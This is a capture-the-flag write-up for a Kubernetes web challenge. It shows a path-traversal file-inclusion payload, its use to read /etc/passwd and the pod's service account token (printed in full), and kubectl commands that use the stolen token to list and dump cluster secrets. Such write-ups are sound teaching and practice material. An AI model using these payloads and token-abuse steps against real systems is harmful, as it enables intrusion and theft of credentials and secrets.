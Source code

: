 # Whale Blog

!NOTE Some of these IP addresses/domains may be different to the ones used in the actual CTF.

This was a kubernetes challenge! As hinted by the whale. So we are given an entry point URL of http://whale-blog.duc.tf:30000/

We get a simple page with a Whale video on it, epic. If we view the source we see a reference comment thats says:

`I wonder if we will deploy this at whale-blog.duc.tf or at whale-endpoint.duc.tf`

Since the endpoint we have is whale-blog.duc.tf we can check out what the other url points to.

when we try and access through the browser we get a certificate error however if we ignore tls errors through curl with 

`curl https://whale-endpoint.duc.tf/ -k` 

We get 

```json
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {

  },
  "status": "Failure",
  "message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
  "reason": "Forbidden",
  "details": {

  },
  "code": 403
}
```

In the response. If we google this error message we can see that it is the Kubernetes API, however since we are anonymous we will not be able to do anything. Let's leave this for now.

If we click the link below the video nothing seems to happen but our url changes to http://whale-blog.duc.tf:30000/?page=page1. So it seems like it is expecting something in the `page` parameter, if we check the source again we can see that the comment at the top of the webpage changes depending on what we put in the `page` parameter.

Let's see if we can change this to something arbitrary to see if this page is including this file in the page. Navigating to http://whale-blog.duc.tf:30000/?page=../../../../../../etc/passwd we get the output of the `passwd` file as a comment on the HTML page. Awesome so we have a full Local File Inclusion (LFI) and we can read any file on the server.

So given that the other IP address was the Kubernetes API we can make an educated guess that this web app is running on Kubernetes.

Researching common exploits with kubernetes when you have an LFI is to read the Kubernetes Service account token that is automounted in the pod unless explicity told not too. Let's try and read that, it is located at `/var/run/secrets/kubernetes.io/serviceaccount/token`.

So navigating to `http://whale-blog.duc.tf:30000/?page=../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token` and bingo, the output contains the base64 encoded token!

`eyJhbGciOiJSUzI1NiIsImtpZCI6InVjU19kOWZzMnFvZUkxWmZuNnZRdUEtcHctUktQSHJvN010LTZFVF94NncifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tdHo3dnAiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjQ3YTlhOTk4LTBlZjAtNDE5Mi1iNTgwLTVjZWEzNzZkNjEyZSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.nt5LO_dP556wtYCocTkegY2_hm-uTMo-2VJ2NIFqzu7k-plYN5FfOwriCNpH9AYIg_LCykZnTErs5eQCf01Ms0ybSuvzch41XiSfQwyKgVGdC-xooiqvPf0oUg1TjeaiLqyypvwDURxOS_9Hw5wG-3ew0LCNt7VTfU0sRA0B0Zx3rHCgeEBuJCAxgbmXr0FV-aUJ_w1GF0ovWNbd_l0naP4SVb5m9_wx1KabOIeFIf3gLoubEW_e6S9t2bYPuPy4uNZXDV5V4rs79rEEAfs85IQE5-Ue46PitpnEo5sWu870X4F3Q405HtyNQISUUP_tc1zFRgZ-bV-Dpf9kAPY_IQ`

Let's go ahead and download this and see what this service account can do. For this we will need the `kubectl` binary to interact with the Kubernetes API and see what we can do. Note in the following commands I have saved the above token in a file called `token` and I am specifing the server that is the Kubernetes API.

So let's see what this Service account can do by using the `can-i` command in kubectl

`kubectl --token=$(cat token) --server=https://whale-endpoint.duc.tf/ auth can-i --list`

```
Resources                                       Non-Resource URLs   Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
secrets                                         []                  []               [get list]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

Wow so it looks like we can `get` and `list` secrets in the default namespace, lets go ahead and list the secrets.


`kubectl --token=$(cat token) --server=https://whale-endpoint.duc.tf/ get secrets`

```
default-token-tz7vp   kubernetes.io/service-account-token   3      8d
nooooo-dont-read-me   Opaque                                1      8d
```

Looks like we are on here, lets go ahead and read the `nooooo-dont-read-me` secret

`kubectl --token=$(cat token) --server=https://whale-endpoint.duc.tf/ get secrets nooooo-dont-read-me -o json`

```json
{
    "apiVersion": "v1",
    "data": {
        "so-secret-though": "RFVDVEZ7ZzAwbmllc19nb3RfdGgxc19sNHN0X3llYXJfbm93X3VfZGlkIX0K"
    },
    "kind": "Secret",
    <snip>
}
```

Theres a base64 encoded secret, simply decoding it gives us the flag!

`DUCTF{g00nies_got_th1s_l4st_year_now_u_did!}`